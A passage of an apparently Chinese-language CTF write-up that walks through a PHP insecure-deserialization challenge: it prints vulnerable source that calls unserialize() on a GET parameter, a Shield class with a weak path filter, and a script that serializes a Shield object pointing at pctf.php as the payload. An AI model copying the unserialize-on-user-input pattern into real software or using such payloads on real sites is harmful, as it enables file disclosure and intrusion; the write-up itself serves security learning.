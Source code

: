 ```php
<?php 
	require_once('shield.php');
	$x = new Shield();
	isset($_GET['class']) && $g = $_GET['class'];
	if (!empty($g)) {
		$x = unserialize($g);
	}
	echo $x->readfile();
?>
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

可以看到还包含了 `shield.php` ，我们再去读一下这个文件：

```php
<?php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
		function readfile() {
			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
				return @file_get_contents($this->file);
			}
		}
	}
?>
```

可以看到提示 `flag is in pctf.php`

直接访问提示 `File not found!`

因此按照代码逻辑我们应该传参进去，经过反序列化然后让它执行 `$x->readfile()` 进行读取

先把类创建并进行序列化：

```php
<?php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
		function readfile() {
			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
				return @file_get_contents($this->file);
			}
		}
	}
	$exp = new Shield("pctf.php");
	echo serialize($exp);
?>
```
